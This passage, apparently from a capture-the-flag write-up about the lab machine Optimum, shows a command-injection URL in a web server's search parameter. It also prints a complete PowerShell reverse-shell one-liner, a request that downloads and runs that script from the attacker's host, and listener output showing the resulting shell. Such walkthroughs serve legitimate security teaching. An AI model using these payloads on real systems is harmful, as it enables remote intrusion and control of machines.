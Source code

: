 I can also run it with PowerShell:

```

http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}

```

### Shell

Given the age of this host and the easy rating, I likely don’t have to worry about Defender / AMSI, so I’ll grab a PowerShell script from [Nishang](https://github.com/samratashok/nishang). I’ll copy the `Invoke-PowerShellTcpOneLine.ps1`, cut the comments, and update the IP and port:

```

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

I’ll save a copy of that as `rev.ps1` (just to make an easier url I’m about to request). Then I’ll start a Python web server, and visit:

```

http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}

```

That triggers Optimum to reach out and download `rev.ps1` (interestingly again four times), which shows up at the web server:

```

oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -

```

When the file is returned, it is executed by `IEX`, short for `Invoke-Expression`, and the shell connects back to my listening `nc` (for some reason on this shell the prompt only shows up after the first command):

```

oxdf@parrot$ sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>

```
